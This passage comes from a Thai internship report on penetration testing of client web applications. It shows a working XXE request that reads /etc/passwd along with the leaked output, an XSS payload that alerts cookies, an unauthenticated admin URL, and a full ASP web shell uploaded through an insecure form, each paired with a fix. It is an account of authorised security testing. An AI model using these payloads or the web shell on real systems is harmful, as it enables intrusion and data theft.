	
\includegraphics[width=0.8\columnwidth]{jbosshome.png}
	\caption{หน้าตั้งต้นของ JBoss Web Server EAP 7}
	\label{Fig:jbosshome.png}
\end{figure}

\subsection{XML External Entities (XXE)}

ผู้ทดสอบระบบสามารถใส่ XML Entities ที่สามารถใช้เรียก External Resource เข้าไปยัง HTTP Request เพื่อให้ตัว XML Parser นั้น Include ตัว External Resource ที่เราต้องการ (ในที่นี้คือไฟล์ /etc/passwd ที่เก็บรายชื่อ User ทั้งหมดในระบบ) แล้วส่งข้อมูลนั้นกลับมาผ่าน HTTP Response ซึ่งด้านล่างคือตัวอย่าง Request ที่ใช้ Exploit

\begin{lstlisting}[numbers=none] 
POST /wsgw/services/[REDACTED]SecureService HTTP/1.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:70.0) Gecko/20100101 Firefox/70.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
SOAPAction: urn:MSG
Content-Type: text/xml;charset=UTF-8
Host: [REDACTED]
Content-Length: 7973

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:web="http://[REDACTED]/webservice">
<soapenv:Header/>
<soapenv:Body>
<web:MSG>
<web:[REDACTED]><![CDATA[

<@\textcolor{red}{<!DOCTYPE doc [<!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>}@>

<Service value="Export">
<CorpName>[REDACTED]</CorpName>
<CorpId>&xxe;</CorpId>
<MessageType>14</MessageType>
<ReqUId>SECTEST\_20190916008</ReqUId>
<Data>
[...]  
</Data>
</Service>
]]></web:[REDACTED]>
</web:MSG>
</soapenv:Body>
</soapenv:Envelope>
\end{lstlisting}

และผลลัพธ์ที่ได้คือข้อมูลภายในไฟล์ /etc/passwd

\begin{lstlisting}[numbers=none] 
HTTP/1.1 200 OK
Date: Thu, 26 Sep 2019 11:14:01 GMT
Server: JBoss-EAP/7
X-Frame-Options: SAMEORIGIN
X-Powered-By: Undertow/1
Content-Type: text/xml;charset=UTF-8
Content-Length: 4758
Connection: close

<soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/"><soap:Body><MSGResponse xmlns="http://[REDACTED]/webservice" xmlns:ns2="http://[REDACTED]/xsd"><return><ns2:bankCode></ns2:bankCode><ns2:bankName></ns2:bankName><ns2:commercialInvoiceNo></ns2:commercialInvoiceNo><ns2:companyCode>root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
games:x:12:100:games:/usr/games:/sbin/nologin
ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
nobody:x:99:99:Nobody:/:/sbin/nologin
avahi-autoipd:x:170:170:Avahi IPv4LL Stack:/var/lib/avahi-autoipd:/sbin/nologin
systemd-bus-proxy:x:999:997:systemd Bus Proxy:/:/sbin/nologin
systemd-network:x:998:996:systemd Network Management:/:/sbin/nologin
dbus:x:81:81:System message bus:/:/sbin/nologin
polkitd:x:997:995:User for polkitd:/:/sbin/nologin
libstoragemgmt:x:996:993:daemon account for libstor-agemgmt:/var/run/lsm:/sbin/nologin
abrt:x:173:173::/etc/abrt:/sbin/nologin
[...]
\end{lstlisting}

วิธีการแก้ไขคือต้องไม่ให้ XML Parser สามารถ Include ข้อมูลจากภายนอกได้ แต่ถ้าจำเป็นต้องใช้ Feature นี้จริง ๆ ควรกรองข้อมูลก่อน Parse XML ว่าสามารถเรียก External Entity ได้จากไฟล์ไหน หรือ Domain ไหนบ้าง

\subsection{Broken Access Control}

ในหัวข้อนี้ผู้เขียนจะเล่าถึงช่องโหว่ที่เกิดจากการควบคุมสิทธิผู้ใช้งานว่าทำอะไรได้และไม่ได้ไม่ดีพอ ทำให้ผู้ประสงค์ร้ายสามารถเข้าถึงการทำงานและข้อมูลต่าง ๆ ที่ไม่ได้รับอนุญาต เช่น การเข้าถึงข้อมูลของ ผู้ใช้ผู้อื่น การเข้าถึงไฟล์สำคัญของระบบ การแก้ไขข้อมูลของผู้ใช้อื่น ๆ การกระทำคำสั่งของผู้ดูแลระบบโดยใช้สิทธิ์ของผู้ใช้ธรรมดา เป็นต้น

\subsubsection{Unauthenticated access to all resources through direct access}

ผู้ทดสอบสามารถเข้าถึงทรัพยากรต่าง ๆ ในระบบโดยที่ไม่ต้องเข้าสู่ระบบ โดยในที่นี้ผู้ทดสอบสามารถเข้าถึงรายชื่อของสิทธิ์ต่าง ๆ (Roles)โดยที่ไม่ได้ผ่านการเข้าสู่ระบบ

ผู้ทดสอบเข้า URL ต่อไปนี้ผ่านโหมดไม่ระบุตัวตนของ Google Chrome

\begin{lstlisting}[numbers=none] 
http://[REDACTED]/admin.tml?flow=list&currentPage=1&pageSize=20&menu=admin
\end{lstlisting}

เว็บแอปพลิเคชันส่ง Response กลับมาในรูปของ JSON ดังภาพที่ \ref{Fig:brokenaccesstoallresource.png}  ซึ่งควรเป็นผู้ที่เข้าสู่ระบบแล้วเท่านั้น ถึงจะเข้าถึงได้

 \begin{figure}[h]
	\centering
	
\includegraphics[width=0.6\columnwidth]{brokenaccesstoallresource.png}
	\caption{รายชื่อของสิทธิ์ทั้งหมดที่มีอยู่ในระบบ}
	\label{Fig:brokenaccesstoallresource.png}
\end{figure}

วิธีการแก้ไขคือควรตรวจสอบสิทธิ์ของผู้ใช้งานทุกครั้งในทุก ๆ Request ว่าสามารถเข้าถึงทรัพยากรใด ๆ ได้บ้าง

\subsection{Security Misconfiguration}

หัวข้อนี้อาจจะไม่ได้เรียกว่าช่องโหว่อย่างแท้จริง แต่เป็นเพียงแค่การขาดการตั้งค่าที่ช่วยเพิ่มความปลอดภัยให้กับระบบ

\subsubsection{Missing HTTP Security Headers}

 เว็บแอปพลิเคชันสามารถตั้งค่า HTTP Response Header ที่ส่งไปยัง Browser เพิ่มเติมได้ เพื่อบอกให้ Browser ช่วยป้องกันการเกิดบางช่องโหว่
 
 \begin{lstlisting}[numbers=none] 
HTTP/1.1 200 OK
Expires: Thu, 01 Jan 1970 00:00:00 GMT
X-Powered-By: JSP/2.3
Server: JBoss-EAP/7
<@\textcolor{red}{Cache-Control: no-cache, no-store}@>
<@\textcolor{red}{X-XSS-protection: 1; mode=block}@> 
<@\textcolor{red}{X-Frame-Options: SAMEORIGIN; DENY}@> 
Date: Thu, 09 May 2019 08:09:38 GMT
Connection: close
Content-Type: text/html;charset=UTF-8
 \end{lstlisting}
 
สามารถอธิบายประโยชน์ของแต่ Headers ได้ดังนี้

\begin{enumerate}
	\item Cache-Control: no-cache, no-store เป็นการบอกให้ Browser ไม่ Cache ข้อมูล Response ไว้
	\item X-XSS-protection: 1; mode=block เป็นการบอกให้ Browser ให้ตรวจจับและป้องกันการทำงานของ Cross-Site Scripting
	\item X-Frame-Options: SAMEORIGIN; DENY สามารถป้องกันการโจมตี "Click-jacking" ได้ เป็นการบอก Browser ให้ Block การทำงานของ iframe
\end{enumerate}

\subsection{Cross-Site Scripting}

\subsubsection{Stored Cross-Site Scripting}

เนื่องจากก่อนการบันทึกข้อมูลลง Database ไม่มีการกรองข้อมูล หรือ Encode ข้อมูล Input จาก User มาแสดงบน Browser ทำให้ผู้ประสงค์ร้ายสามารถแทรกโค้ด JavaScript หรือ HTML เข้ามาในหน้าเว็บได้ ซึ่งทุก ๆ ครั้งที่เหยื่อเข้าหน้าเว็บโค้ดที่ถูกฝังไว้จะทำงานทันที ทำให้ข้อมูลในหน้าเว็บถูกเปลี่ยนแปลง หรือถูกขโมยรหัสผ่านได้ หน้าเว็บที่ค้นพบช่องโหว่คือดังรูปที่ \ref{Fig:storedxss.png}

\begin{figure}[h]
	\centering
	
\includegraphics[width=1\columnwidth]{storedxss.png}
	\caption{หน้าเว็บสำหรับเพิ่มข้อมูล}
	\label{Fig:storedxss.png}
\end{figure}

ผู้ทดสอบใส่โค้ด HTML และ JavaScript ที่จะ Alert ค่า Cookie เมื่อมีใครเข้าหน้าเว็บค้นหาข้อมูลของ Partner ในโลกแห่งความโหดร้าย ผู้ประสงค์ร้ายจะไม่ฝังโค้ดเพียงแค่ Alert ค่าของ Cookie แต่จะขโมย Cookie ไปสวมรอยเป็นเหยื่อโดยทันที

 \begin{lstlisting}[language=html,numbers=none] 
<svg onload=alert(document.cookie)></svg> <input onfocus=alert(document.cookie) autofocus>
\end{lstlisting}

จากนั้นเข้าหน้าค้นหาข้อมูลของ Partner แล้วเรียกดูข้อมูล Partner ทั้งหมด (ซึ่งจะมีข้อมูล Partner ชื่อ SECXSS1 ที่ผู้ทดสอบได้ใส่โค้ดด้านบนไว้) จากนั้นจะเห็น Alert ดังรูปที่ \ref{Fig:storedxsscookie.png}

\begin{figure}[h]
	\centering
	
\includegraphics[width=1\columnwidth]{storedxsscookie.png}
	\caption{หน้าเว็บสำหรับเพิ่มข้อมูล}
	\label{Fig:storedxsscookie.png}
\end{figure}

วิธีการแก้คือ ข้อมูล Input ทุกอย่างต้องถูกกรองก่อน หรือถูก Encode ก่อนที่จะส่งไปแสดงที่ Browser

หากเลือกวิธีการกรองข้อมูล ก็ควรที่จะรัดกุมในการกรองข้อมูล โดยใช้วิธีการดังนี้

\begin{enumerate}
	\item วิธีการ Whitelist Input ที่ยอมรับ เช่นเลข ID สินค้าควรเช็คที่ฝั่ง Server ว่า Input ประกอบไปด้วยตัวเลขเท่านั้น
	\item วิธีการกรองตามชนิดของตัวแปร เช่น บาง Input รับข้อมูลเพียงแค่ตัวเลขทศนิยมเท่านั้น ถ้ามีใส่ข้อมูลชนิดอื่นเข้ามาให้ปฏิเสธ
	\item วิธีการกรองรูปแบบของข้อมูล เช่น หากเจอ String ที่มีรูปแบบ <script> หรือ </script> ให้ปฏิเสธข้อมูลเหล่านั้นทันที
\end{enumerate}

การกรองข้อมูลตามหัวข้อข้างต้นนอกจากจะช่วยป้องกันช่องโหว่แล้ว ยังช่วยลดโอกาสในการเกิด Error ที่เกิดจากข้อมูลแปลก ๆ อีกด้วย

แต่ถ้าหากเลือกที่จะใช้วิธีการ Encode ข้อมูล ก็ควร Encode ให้ Browser มองเห็นว่าเป็นข้อมูลไม่ใช่คำสั่ง โดยที่ตัวอักขระพิเศษที่จะถูก Encode ได้แก่ [;()"´`,<>/\'=] จะถูก Encode เป็น

 \begin{lstlisting}[numbers=none]
&lsqb;&semi;&lpar;&rpar;&quot;&acute;&grave;&comma;&lt;&gt;&sol;&bsol;&apos;&equals;&rsqb;
\end{lstlisting}

\subsection{Insecure Deserialization}
ผู้เขียนยังไม่เคยพบเจอช่องโหว่ลักษณะนี้จากการทำงาน
\subsection{Using Components with Known Vulnerabilities}
ผู้เขียนยังไม่เคยพบเจอช่องโหว่ลักษณะนี้จากการทำงาน
\subsection{Insufficient Logging and Monitoring}

Log เปรียบเสมือนสมุดบันทึกประจำวันของคนเรา ไม่ว่าจะเกิดเหตุการณ์อะไรขึ้น เราก็จะจดบันทึกเหตุการณ์นั้น ๆ ลงในสมุดบันทึก ในทางคอมพิวเตอร์ก็เช่นกัน ตั้งแต่เปิดเครื่อง จนปิดเครื่อง หรือเปิดโปรแกรม จนปิดโปรแกรมก็ต้องเกิดเหตุการณ์ต่าง ๆ มากมาย ซึ่งคอมพิวเตอร์จะบันทึกเหตุการณ์ต่าง ๆ ไว้ในไฟล์ (Log File)

ตัวอย่างข้อมูลไฟล์บันทึกเหตุการณ์ของ Web Application ที่เขียนด้วย Spring Boot ดังรูปที่ \ref{Fig:springbootlog.png}

\begin{figure}[h]
	\centering
	
\includegraphics[width=0.8\columnwidth]{springbootlog.png}
	\caption{ตัวอย่าง Log ของ Spring Boot Web Framework}
	\label{Fig:springbootlog.png}
\end{figure}

แต่ละบรรทัดจะบ่งบอกถึงเหตุการณ์ต่าง ๆ เช่น ใช้ไฟล์ตั้งค่าไฟล์ไหน โปรไฟล์อะไร เปิด Port อะไรอยู่ เป็นต้น

และถ้าหากระบบสารสนเทศเราประกอบไปด้วยหลาย ๆ ส่วน เช่น Spring Boot สำหรับส่วนเว็บแอปพลิเคชัน PostgreSQL สำหรับฐานข้อมูล Redis สำหรับเก็บ Session ของผู้ใช้งาน เป็นต้น นั่นหมายความว่าหากเกิดข้อผิดพลาดในระบบ ก็ต้องไล่เปิดไฟล์ทีละไฟล์เพื่อหาสาเหตุ ซึ่งเป็นการกระทำที่ช้า แต่ทว่าในบางบริษัทที่ผู้เขียนไปทำ Penetration Testing ยังคงใช้วิธีการข้างต้นอยู่ ทำให้เมื่อมีเหตุการณ์อะไรเกิดขึ้น กว่าจะค้นหาต้นตอได้ก็จะกินเวลานานมาก

ดังนั้นหากต้องการจัดการกับข้อมูล Log อย่างมีประสิทธิ์ภาพควรใช้ Tools เข้ามาช่วยจัดการ Log เครื่องมือที่นิยมในปัจจุบันคือ ELK Stack ซึ่งประกอบไปด้วย Elasticsearch, Logstash และ Kibana 

สมมุติว่าเกิดเหตุการณ์ Brute Force Directory ขึ้นมาบนเว็บแอปพลิเคชัน เราสามารถค้นหาได้ทันทีว่าเกิดการ Brute Force ตั้งแต่เวลาใดถึงเวลาใด แล้วผู้กระทำได้ Brute Force Directory อะไรไปแล้วบ้าง ดังรูปที่ \ref{Fig:404errorlog.png}

\begin{figure}[h!]
	\centering
	
\includegraphics[width=0.8\columnwidth]{404errorlog.png}
	\caption{ผลลัพธ์เมื่อค้นหา Error 404 ในช่วงเวลา 15 นาทีที่ผ่านมา}
	\label{Fig:404errorlog.png}
\end{figure}

\section{ช่องโหว่ร้ายแรงที่พบเจอแต่ไม่ได้อยู่ในหมดหมู่ OWASP Top 10}

\subsection{Arbitrary File Upload}

ช่องโหว่นี้เกิดจากการที่ระบบไม่ได้ตรวจสอบข้อมูลของไฟล์ที่ถูกอัพโหลดขึ้นมา ประกอบกับการตั้งค่าที่ผิดพลาดจึงทำให้ไฟล์นั้นสามารถถูก Execute ได้

ในกรณีนี้ผู้ทดสอบสามารถอัพโหลดไฟล์ ASP ที่ใช้เป็น Web Shell ได้ผ่านหน้าอัพโหลดเอกสารดังภาพที่ \ref{Fig:arbiuploadform.png} และสามารถรันคำสั่งอะไรก็ได้บนระบบ

\begin{figure}[h!]
	\centering
	
\includegraphics[width=0.8\columnwidth]{arbiuploadform.png}
	\caption{Upload Form ที่มีช่องโหว่}
	\label{Fig:arbiuploadform.png}
\end{figure}

\newpage

ด้านล่างนี้คือโค้ดที่อัพโหลดขึ้นไปบนระบบ ซึ่งระบบไม่ได้ตรวจสอบข้อมูลของไฟล์ที่ถูกอัพโหลด ทำให้ไฟล์นี้ถูกเก็บไว้ใน Static Folder ซึ้งสามารถเข้าถึงได้โดยตรง

 \begin{lstlisting}[language=html,numbers=none] 
<%
Set oScript = Server.CreateObject("WSCRIPT.SHELL")
Set oScriptNet = Server.CreateObject("WSCRIPT.NETWORK")
Set oFileSys = Server.CreateObject("Scripting.FileSystemObject")
Function getCommandOutput(theCommand)
Dim objShell, objCmdExec
Set objShell = CreateObject("WScript.Shell")
Set objCmdExec = objshell.exec(thecommand)
getCommandOutput = objCmdExec.StdOut.ReadAll
end Function
%>
<HTML>
<BODY>
<FORM action="" method="GET">
<input type="text" name="cmd" size=45 value="<%= szCMD %>">
<input type="submit" value="Run">
</FORM>
<PRE>
<% szCMD = request("cmd")
thisDir = getCommandOutput("cmd /c" & szCMD)
Response.Write(thisDir)%>
</p>
<br>
</BODY>
</HTML>
\end{lstlisting}

และรูปที่ \ref{Fig:arexec.png} คือผลลัพธ์เมื่อส่งคำสั่ง whoami ไปรันบนเครื่อง  (iis\textbackslash USER)
\begin{figure}[h!]
	\centering
	
\includegraphics[width=0.8\columnwidth]{arexec.png}
	\caption{ผลลัพธ์ของคำสั่ง whoami}
	\label{Fig:arexec.png}
\end{figure}

\newpage
วิธีการแก้ไขคือให้ Whitelist เฉพาะไฟล์ที่สามารถ Upload ได้ พร้อมทั้งตรวจสอบข้อมูลภายในไฟล์ว่าตรงตามที่ Whitelist หรือไม่ และควรตั้งค่าให้ Static Folder นั้นไม่สามารถ Execute ไฟล์ใด ๆ ได้

    \chapter{ปัญหาและข้อเสนอแนะ}
\label{chapter:result}

ปัญหาและข้อเสนอแนะประกอบด้วยปัญหาที่เกิดขึ้นระหว่างเข้าร่วมโครงการสหกิจศึกษา ซึ่งอาจแยกเป็นปัญหาด้านสถานประกอบการ ปัญหาด้านมหาวิทยาลัย ปัญหาด้านตัวนักศึกษา พร้อมทั้งบอกข้อเสนอแนะหรือแนวทางการแก้ไข 

\section{ด้านสถานประกอบการ}

ไม่มี

\textbf{ข้อเสนอแนะ} ไม่มี

\section{ด้านมหาวิทยาลัย}

หาที่เขียนเผ่น CD ยาก แผ่น CD ก็หาซื้อได้ยาก ต้องพิมพ์รูปเล่มหลายครั้งในการตรวจสอบ ทำให้เปลืองกระดาษ

\textbf{ข้อเสนอแนะ} ควรยกเลิกการพิมพ์รูปเล่มส่ง แต่ให้ส่งในระบบออนไลน์แทน และยกเลิกการส่งรายงานในรูปแบบ CD

\section{ด้านตัวนักศึกษา}

ง่วงในเวลาทำงาน ส่วนมากไปถึงที่ทำงานสายเพราะต้องรอรถ BTS หลายขบวนกว่าจะได้ขึ้น

\textbf{ข้อเสนอแนะ} ควรนอนหลับพักผ่อนให้เพียงพอ และย้ายประเทศเมื่อมีทรัพย์สิน
    
    \clearpage
    \addcontentsline{toc}{chapter}{บรรณานุกรม}
    \bibliographystyle{IEEEtran}
    \bibliography{reference}
    
    \newpage
    

    \startappendix
    \chapter{สภาพการปฏิบัติงาน}

\section{บรรยากาศในสถานที่ปฏิบัติงาน}

ออฟฟิศของ \Company อยู่ที่ ชั้น 16 ห้อง 16บี ตึกปิยเพลส ซอยหลังสวน ถนนเพลินจิต แขวงลุมพินี มีพนักงานทั้งหมด 16 คน ซึ่งทีม Delivery ที่ผู้เขียนเข้าไปฝึกงานนั้นมีพนักงานอยู่ 14 คน พนกังานแต่ละฝ่ายจะนั่งรวมกันโดยไม่มีการฉากกั้น หรือแบ่งห้องตามแต่ละฝ่ายงาน ซึ่งเป็นลกัษณะของออฟฟิศสมัยใหม่นอกจากนี้ยังมีห้องประชุม ห้องครัว ห้องน้ำ ห้องนั่งเล่น และระเบียงที่เอาไว้ปลูกผัก

\begin{figure}[!h]
    \centering
    \subfigure[ห้องขนม]{
        \label{Fig:office:1}
        
\includegraphics[width=0.45\linewidth]{snacksroom.jpeg}
    }
    \subfigure[ระเบียงปลูกผัก]{
        \label{Fig:office:2}
